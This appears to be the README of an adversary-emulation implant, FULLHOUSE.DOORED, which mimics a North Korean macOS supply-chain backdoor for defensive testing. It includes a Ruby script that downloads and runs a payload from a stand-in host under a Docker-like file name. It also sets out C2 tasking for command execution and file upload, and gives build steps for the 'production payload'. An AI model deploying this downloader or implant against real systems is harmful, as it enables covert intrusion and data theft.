


# FULLHOUSE.DOORED

FULLHOUSE.DOORED is a first-stage backdoor downloaded and executed via a Ruby
script executed with elevated privileges, emulating compromise of a JumpCloud
agent. It is used primarily to deploy the second-stage backdoor, [STRATOFEAR](../STRATOFEAR/).
FULLHOUSE.DOORED is written in C++ and Objective-C and communicates over HTTP.

## Usage Examples

### Basic Execution

FULLHOUSE.DOORED does not take any command line arguments but requires a
configuration file with the following format to exist in the same directory,
where the first line is the C2 IP address for the implant to connect to and the
second line is the UUID for the implant to use for registering with the C2
server:

```text
10.100.0.70
01A48A493AC92607E79CB427067C0A42
```

FULLHOUSE.DOORED is intended to be downloaded over HTTPS then executed via the
`system` call:

```ruby
require 'open-uri'
path_to_fullhouse = '/usr/local/bin/com.docker.sock'
File.open(path_to_fullhouse, 'wb') do |file|
file.write(open('hxxps://domain[.]com/main').read)
end
sleep(1)
File.chmod(0755, path_to_fullhouse)
path_to_config = '/usr/local/bin/com.docker.sock.lock' 
File.open(path_to_config, 'wb') do |file|
file.write(open('hxxps://domain[.]com/config').read)
end
sleep(1)
system(path_to_fullhouse)
```

The backdoor can alternatively be executed via the command line:

```zsh
# assumes config file (com.docker.sock.lock) is in the same directory
./com.docker.sock
```

### Tasking

HTTP request bodies are XOR-encrypted using the key `F` then base64 encoded.

| Action | Protocol | Endpoint | Data Sent (plaintext) | Expected Data to Receive (plaintext) |
| ---- | -------- | -------- | --------- | ------------------------ |
| Initial C2 Registration | POST | `/request/{UUID}` | Request body contains initial discovery data (username, hostname, PID) | JSON formatted tasking |
| Heartbeat | GET | `/request/{UUID}` | No data sent | '{"id": 0}' |

#### Command Execution

If tasked to execute `whoami`:

| Packet Number | Protocol | Endpoint | Data Sent (plaintext) | Expected Data to Receive (plaintext) |
| ---- | -------- | -------- | --------- | ------------------------ |
| 1 | GET | `/request/{UUID}` | No data sent | '{"id": 1, "arg":"whoami"}' |
| 2 | POST | `/form/{UUID}` | [command output] | No data expected |

#### File Download

If tasked to download `myPayload`:

| Packet Number | Protocol | Endpoint | Data Sent (plaintext) | Expected Data to Receive (plaintext) |
| ---- | -------- | -------- | --------- | ------------------------ |
| 1 | GET | `/request/{UUID}` | No data sent | `'{"id": 2, "payload": "myPayload", "arg":"/path/to/write/myPayload"}'` |
| 2 | GET | `/files/myPayload` | No data sent | `'{"file_size": 20, "file_bytes": [bytes]}'` |
| 3 | POST | `/form/{UUID}` | "Downloaded file successfully" | No data expected |

#### File Upload

If tasked to upload `secrets.txt`:

| Packet Number | Protocol | Endpoint | Data Sent (plaintext) | Expected Data to Receive (plaintext) |
| ---- | -------- | -------- | --------- | ------------------------ |
| 1 | GET | `/request/{UUID}` | No data sent | `'{"id": 3, "arg":"/path/to/secrets.txt"}'` |
| 2 | POST | `/submit` | HTTP header: `filename: secrets.txt`), HTTP request body: `[bytes]` | No data expected |

## Build Instructions 🏗️

FULLHOUSE.DOORED can be built in Debug or Release mode using the included
`CMakePresets.json` configurations.

### Dependencies

- `CMake` minimum version `3.26`
- `CMakePresets.json` version `6` support
- `Ninja` minimum version `1.11.1`
- `Google Test` minimum version `1.14.0` (for testing)

On the macOS host for building:

```bash
brew install cmake ninja googletest
```

### Quickstart

#### Build Command Line

Build both Debug and Release configurations of FULLHOUSE.DOORED.

```bash
cmake --workflow --preset cicd-debug
cmake --workflow --preset cicd-release
```

:bulb: This will Configure, Build and Test. To Configure only, run: `cmake --preset default`

For simplicity, all of the generated artifacts can be bundled into the
top-level `install/` directory using the CMake installation facility.

```bash
cmake --install ./build --config release
cmake --install ./build --config debug
```

`./install/Release/main` is the production payload for FULLHOUSE.DOORED.

### Build Presets

#### Command Line

*NOTE: This section assumes Configuration has been completed.*

For building for debug:

```bash
cmake --build --preset debug --clean-first
```

`./build/src/Debug/main` is the debug payload for FULLHOUSE.DOORED.

For building for release:

```bash
cmake --build --preset release --clean-first
```

`./build/src/Release/main` is the production payload for FULLHOUSE.DOORED.

### Update FULLHOUSE.DOORED Implant Configuration

Update the following variables in [CMakePresets.json](./CMakePresets.json#L27-L29) to modify the implant configuration:

```json
        "C2_ADDRESS_CMAKE": "10.100.0.70",
        "UUID_CMAKE": "01A48A493AC92607E79CB427067C0A42",
        "CONFIG_FILE_NAME_CMAKE": "com.docker.sock.lock"
```

| Variable | Description |
| -------- | ----------- |
| C2_ADDRESS_CMAKE | IP address for the implant to connect for C2 |
| UUID_CMAKE | Unique identifier for the implant to use when registering with C2 server |
| CONFIG_FILE_NAME_CMAKE | Name of the configuration file for the implant to load on execution. This file must be located in the same directory as the implant binary |

## Install 📦

Installing FULLHOUSE.DOORED simply copies all of the artifacts from both Release
and Debug builds into the top-level `install/` directory. This is simply for
ease of use and distributability.

The final product should be a top-level directory named `install/` with the
following layout:

```bash
FULLHOUSE.DOORED/
├─ install/
   ├─ Debug/
   │  ├─ config
   │  ├─ main
   ├─ Release/
   │  ├─ config
   |  ├─ main
```

### Install Command Line

```bash
cmake --install ./build
```

## Test 🧪

The `cicd-debug` [CMake workflow](#command-line) will build and test FULLHOUSE.DOORED with a
single command. This section details how to run tests independently from a build
process.

### Test Command Line

```bash
ctest --preset all
```

## Cleanup 🧹

Execute the [fullhouse_cleanup.sh](../cleanup/fullhouse_cleanup.sh) script:

```zsh
chmod +x fullhouse_cleanup.sh
sudo ./fullhouse_cleanup.sh
```

## Troubleshoot 🤔

### Logs

FULLHOUSE.DOORED will create a log file `fdlog.log` in the current working directory. The log file is XOR encrypted with the key `FEEDCAFE`.

#### Decrypting the log file

Use the [log_decryptor](../log_decryptor/) decrypt the log file:

```bash
python3 aes_base64_log_decryptor.py -i fdlog.log -o dec_fdlog.log -k FEEDCAFE --xor
```

View the contents of the decrypted log file:

```bash
cat dec_fdlog.log
```

### Debugger

Development and debugging of FULLHOUSE.DOORED was conducted using Visual Studio Code. The following extensions were required:

- C/C++
- C/C++ Extension Pack
- CMake
- CMake Tools

If using VS Code Remote Explorer, ensure developer mode is enabled for the session over SSH:

```bash
sudo DevToolsSecurity -enable
```

Ensure your Visual Studio Code CMake configuration has the following selected:



If your CMake status bar is set to `visible`, your status bar at the bottom of your Visual Studio Code window should reflect the following:



Use the following `launch.json` and `tasks.json` for debugging with Visual Studio Code:

launch.json:

```json
{
    "version": "0.2.0",
    "configurations": [
        {
            "name": "Debug FULLHOUSE.DOORED",
            "type": "cppdbg",
            "request": "launch",
            "program": "${workspaceFolder}/build/src/Debug/main",
            "MIMode": "lldb",
            "args": [],
            "cwd": "${workspaceFolder}",
            "externalConsole": false,
            "environment": [],
            "preLaunchTask": "Build FULLHOUSE.DOORED"
          }
    ]
}
```

tasks.json:

```json
{
    "version": "2.0.0",
    "tasks": [
        {
            "type": "cmake",
            "label": "Build FULLHOUSE.DOORED",
            "command": "build",
            "targets": [
                "main"
            ],
            "preset": "${command:cmake.activeBuildPresetName}",
            "group": {
                "kind": "build",
                "isDefault": true
            },
            "problemMatcher": [],
            "detail": "CMake template build task"
        }
    ]
}
```

This CMakePresets.json follows version 6. Because the CMake extension in VS Code compares against version 4, you will need to ensure `cmake.allowUnspportedPresetsVersion` is set to `true` in `settings.json`. The additional field `debug.allowBreakpointsEverywhere` was also added to allow breakpoints to be set in the Objective-C++ (.mm) files:

```json
{
    "cmake.allowUnsupportedPresetsVersions": true,
    "debug.allowBreakpointsEverywhere": true
}
```

## CTI 📄

| Reports |
| ---------------------------- |
| [North Korea Leverages SaaS Provider in a Targeted Supply Chain Attack](https://www.mandiant.com/resources/blog/north-korea-supply-chain) |
